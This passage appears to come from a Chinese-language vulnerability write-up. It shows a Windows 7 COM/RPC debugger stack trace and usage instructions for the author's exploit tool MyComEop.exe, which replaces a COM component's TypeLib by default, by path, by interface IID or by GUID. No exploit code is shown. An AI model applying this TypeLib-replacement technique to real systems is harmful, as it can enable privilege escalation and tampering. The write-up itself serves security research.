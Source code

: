 ```
15 00000000`0288ebe0 000007fe`fedf48d6 : 00000000`0288f248 000007fe`ff66376f 00000000`03715700 00000000`0379a2a0 : RPCRT4!Ndr64AsyncServerCallAll+0x1806
16 00000000`0288f1a0 000007fe`ff660883 : 00000000`00000000 00000000`00000000 000007fe`ff695b80 00000000`03715ea0 : RPCRT4!NdrStubCall3+0xc6
17 00000000`0288f200 000007fe`ff660ccd : 00000000`00000001 00000000`00000000 00000000`00000000 00000000`00000000 : ole32!CStdStubBuffer_Invoke+0x5b [d:w7rtmcomrpcndrolestub.cxx @ 1586] 
18 00000000`0288f230 000007fe`ff660c43 : 00000000`037da9c0 00000000`0579cb14 00000000`036ce730 000007fe`eca36a40 : ole32!SyncStubInvoke+0x5d [d:w7rtmcomole32comdcomremchannelb.cxx @ 1187] 
19 00000000`0288f2a0 000007fe`ff51a4f0 : 00000000`037da9c0 00000000`0361e890 00000000`037da9c0 00000000`00000178 : ole32!StubInvoke+0xdb [d:w7rtmcomole32comdcomremchannelb.cxx @ 1396] 
1a 00000000`0288f350 000007fe`ff52d551 : 00000000`00000000 00000000`00000001 00000000`0376e9e0 00000000`03715ea0 : ole32!CCtxComChnl::ContextInvoke+0x190 [d:w7rtmcomole32comdcomremctxchnl.cxx @ 1262] 
1b 00000000`0288f4e0 000007fe`ff66347e : 00000000`0361e890 00000000`00000000 00000000`03718760 00000000`00000000 : ole32!STAInvoke+0x91 [d:w7rtmcomole32comdcomremcallctrl.cxx @ 1923] 
1c 00000000`0288f530 000007fe`ff66122b : 00000000`d0908070 00000000`0361e890 00000000`01d93e30 00000000`03718760 : ole32!AppInvoke+0x1aa [d:w7rtmcomole32comdcomremchannelb.cxx @ 1081] 
1d 00000000`0288f5a0 000007fe`ff663542 : 00000000`037da930 00000000`00000400 00000000`00000000 00000000`01d98a30 : ole32!ComInvokeWithLockAndIPID+0x52b [d:w7rtmcomole32comdcomremchannelb.cxx @ 1727] 
1e 00000000`0288f730 000007fe`ff52d42d : 00000000`03715ea0 00000000`00000000 00000000`0378f190 00000000`037da930 : ole32!ComInvoke+0xae [d:w7rtmcomole32comdcomremchannelb.cxx @ 1469] 
1f 00000000`0288f760 000007fe`ff52d1d6 : 00000000`0361e890 00000000`037da938 00000000`00000400 00000000`00000000 : ole32!ThreadDispatch+0x29 [d:w7rtmcomole32comdcomremchancont.cxx @ 298] 
20 00000000`0288f790 00000000`77639bd1 : 00000000`00000000 00000000`00000000 00000000`00000000 b2698378`e8b9daaa : ole32!ThreadWndProc+0xaa [d:w7rtmcomole32comdcomremchancont.cxx @ 654] 
21 00000000`0288f810 00000000`776398da : 00000000`0288f970 000007fe`ff52d12c 000007fe`ff6c5780 00000000`006c4200 : USER32!UserCallWinProcCheckWow+0x1ad
22 00000000`0288f8d0 000007fe`ff52d0ab : 00000000`000b0098 00000000`000b0098 000007fe`ff52d12c 00000000`00000000 : USER32!DispatchMessageWorker+0x3b5
23 00000000`0288f950 000007fe`ff653e57 : 00000000`0361e890 00000000`00000000 00000000`0361e890 000007fe`ff513032 : ole32!CDllHost::STAWorkerLoop+0x68 [d:w7rtmcomole32comobjactdllhost.cxx @ 957] 
24 00000000`0288f9b0 000007fe`ff500106 : 00000000`0361e890 00000000`036d6510 00000000`00000000 00000000`00000000 : ole32!CDllHost::WorkerThread+0xd7 [d:w7rtmcomole32comobjactdllhost.cxx @ 834] 
25 00000000`0288f9f0 000007fe`ff500182 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ole32!CRpcThread::WorkerLoop+0x1e [d:w7rtmcomole32comdcomremthreads.cxx @ 257] 
26 00000000`0288fa30 00000000`7773652d : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ole32!CRpcThreadCache::RpcWorkerThreadEntry+0x1a [d:w7rtmcomole32comdcomremthreads.cxx @ 63] 
27 00000000`0288fa60 00000000`7786c521 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : kernel32!BaseThreadInitThunk+0xd
28 00000000`0288fa90 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ntdll!RtlUserThreadStart+0x21
```

我的漏洞利用工具测试方式如下,需要管理员运行

```
1.只适用Windows7系统直接运行,无参数,替换默认Typelib

MyComEop.exe

2.替换指定接口TypeLIb文件路径的Com组件TypeLIb,比如C:xxx.dll

MyComEop.exe [u] [TypeLib_Path]

3.替换指定接口IID的Com组件TypeLIb,比如 `{`55e3ea25-55cb-4650-8887-18e8d30bb4bc`}`

MyComEop.exe [u] [IID_Interface]

4.高级模式接口IID=[IID_Interface],接口名称=[InterfaceName],接口的TypeLib_GUID=[TypeLib_GUID_Interface],接口TypeLIb文件路径=[TypeLib_Path]

MyComEop.exe [u] [IID_Interface] [InterfaceName] [TypeLib_GUID_Interface] [TypeLib_Path]

```
